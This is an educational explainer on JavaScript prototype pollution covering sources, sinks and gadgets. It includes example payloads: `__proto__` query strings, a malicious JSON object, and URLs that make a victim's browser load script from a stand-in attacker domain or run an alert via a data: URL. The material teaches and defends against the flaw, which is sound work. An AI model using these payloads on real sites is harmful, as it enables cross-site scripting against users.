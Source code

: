 Prototype pollution is a JavaScript vulnerability that enables an attacker to **add arbitrary properties to global object prototypes**, which may then be inherited by user-defined objects.

## How do prototype pollution vulnerabilities arise?

Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.

Successful exploitation of prototype pollution requires the following key components:
- **A prototype pollution source** - This is any input that enables you to poison global prototypes with arbitrary properties.
- **A DOM XSS sink** - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
- **An exploitable gadget** - This is any property that is passed into a sink without proper filtering or sanitization.

## Prototype pollution sources

A prototype pollution source is **any user-controllable input that enables you to add arbitrary properties to global prototypes**. The most common sources are as follows:
- The **URL** via either the query or fragment string (hash)
- **JSON-based** input
- Web messages

### Prototype pollution via the URL

Consider the following URL, which contains an attacker-constructed query string:

`https://vulnerable-website.com/?__proto__[evilProperty]=payload`

Which results in the following structure:

```json
{
    existingProperty1: 'foo',
    existingProperty2: 'bar',
    __proto__: {
        evilProperty: 'payload'
    }
}
```

During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, `evilProperty` is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default `Object.prototype`, all objects in the JavaScript runtime will now inherit evilProperty, unless they already have a property of their own with a matching key.

In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.

Let's say an attacker injects the following malicious JSON, for example, via a web message:

```json
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```

If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:

```javascript
const objectLiteral = {__proto__: {evilProperty: 'payload'}};
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');

objectLiteral.hasOwnProperty('__proto__');     // false
objectFromJson.hasOwnProperty('__proto__');    // true
```

If the object created via `JSON.parse()` is subsequently merged with an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the URL-based example above.

### Prototype pollution sinks

A prototype pollution sink is essentially just a normal DOM XSS sink that you're able to access via prototype pollution. A DOM XSS sink is any JavaScript function or DOM object that can be used for arbitrary JavaScript execution. We've covered this extensively in our topic on DOM XSS.

As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.

### Prototype pollution gadgets

A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:
- Used by the application in an unsafe way, such as passing it to a DOM XSS sink without proper filtering or sanitization.
- Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.

**A property cannot be a gadget if it is defined directly on the object itself**. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. Robust websites may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

## Example of prototype pollution

Imagine the following code:

```javascript
let transport_url = config.transport_url || defaults.transport_url;
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data`: URL as the `transport_url`, an attacker could also directly embed an XSS payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.